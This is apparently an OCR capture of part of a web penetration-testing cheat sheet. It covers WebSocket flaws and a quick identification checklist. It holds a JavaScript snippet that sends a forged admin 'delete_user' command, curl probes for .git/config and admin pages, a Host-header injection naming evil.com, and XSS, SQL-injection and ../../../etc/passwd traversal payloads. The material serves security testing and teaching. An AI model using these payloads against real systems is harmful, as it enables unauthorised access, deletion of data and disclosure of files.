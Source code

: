 ## **WEBSOCKET VULNERABILITIES**
*Present when: WebSocket connections lack proper authentication/validation*

**Manual:** Connect to WebSocket, send malformed/privileged messages
**Automated:**
```bash
websocket-harness -u ws://target.com/ws
wsrecon target.com
```

**Exploit:**
```javascript
ws = new WebSocket("ws://target.com/ws");
ws.send('{"action":"admin","cmd":"delete_user","id":"victim"}');
```

## **QUICK IDENTIFICATION CHECKLIST**

```bash
# Immediate checks
curl -k https://target.com/robots.txt
curl -k https://target.com/.git/config  
curl -k https://target.com/admin
curl -k -H "Host: evil.com" https://target.com

# Quick tests
echo '"><script>alert(1)</script>' # XSS
echo "' OR 1=1--" # SQL
echo "../../../etc/passwd" # LFI
```

---
